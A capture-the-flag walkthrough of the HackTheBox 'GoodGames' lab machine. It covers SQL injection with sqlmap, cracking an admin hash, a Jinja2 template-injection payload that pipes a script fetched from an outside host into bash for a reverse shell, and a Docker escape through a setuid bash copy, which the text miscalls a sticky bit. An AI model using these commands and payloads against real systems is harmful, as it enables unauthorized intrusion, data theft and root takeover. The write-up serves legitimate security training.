










# GoodGames (Full Pwn)

## User

We 're starting with nmap to scan open ports in the machine.

We get only http port 80 open running Flask. So we will try our way in from this port. Fuzzing for directories didn't helped at all. There's only signup and login forms. Fill the form with random credentials and click login.

We get a 200 response and a html page with a 500 error.

We could try an sql injection there to see if we get a useful response. Running sqlmap to get information about the database that this machine use.

` sqlmap -u http://10.129.227.232/login --data "email=1&password=2" `

We got email parameter vulnerable to injection and the the DBMS used is MySQL.

Now we can run sqlmap to dump all databases to search for interesting data, like usernames, passwords etc.

` sqlmap -u http://10.129.227.232/login --data "email=1&password=2" --dbms="MySQL" --all `

We got 2 databases. We 'll dump the tables from main db.

` sqlmap -u http://10.129.227.232/login --data "email=1&password=2" --dbms="MySQL" -D main --tables `

We have a user table. Let's dump the table for potential credentials

We got admin's hash password. Trying to crack with crackstation and we get the password ` superadministrator `. Then we successfully log in to the site. In the upper right there is settings option which leads to a subdomain. Add the subdomain to hosts file and then we access it. In /settings there is another form for user information. We fill the info and they render at right of form. This web app is Flask, which is a python web framework. So a good idea is to try in name parameter a basic SSTI payload.

We got 49, which means it executed in backend. We intercept the request again with burp and send a payload for reverse shell.

` name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl http://10.10.14.38:8000/rev.sh | bash').read() }} `

We obtain a reverse shell as root, so obviously we try to get root flag, But it's not there. We get user flag in augustus directory though.

**HTB{7h4T_w45_Tr1cKy_1_D4r3_54y}**

Enumerating we understand that we are inside a docker container. So we need a way to escape to host. Enumerating with mount command we can see that /dev/sda1 is mounted on /home/augustus, so augustus is host's machine user. We know that docker's gateway is 172.19.0.1 so we can try to ssh as augustus.

## Root

And we got ssh as augustus in the host. Enumerating the machine and with linpeas also, we cant find anything useful to escalate to root. But we know that the augustus directory is mounted to the docker container and inside container we have root privileges. We can abuse this with effective uid to execute a binary with root privileges as augustus. An easy way to do this is to copy bash binary to augustus directory and from inside container we can change it's permission and set the sticky bit.

` cp /usr/bin/bash . `

From container as root:

` chown root:root ./bash `
` chmod u+s ./bash `

From host as augustus:

` ./bash -p `
` cat /root/root.txt `

**HTB{M0un73d_F1l3_Sy57eM5_4r3_DaNg3R0uS}**
